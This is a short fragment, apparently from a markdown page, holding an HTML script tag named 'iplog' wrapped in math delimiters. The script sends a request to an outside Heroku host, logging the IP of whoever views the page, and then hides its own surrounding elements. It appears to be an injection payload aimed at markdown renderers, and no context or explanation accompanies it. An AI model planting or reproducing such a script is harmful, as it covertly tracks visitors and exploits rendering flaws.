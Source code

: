 $$ \<script id="iplog">x=new XMLHttpRequest(); x.open("GET", "https://afternoon-fjord-12487.herokuapp.com/"); x.send();document.getElementById("id").parent.parent.style = "display:none"</script> $$

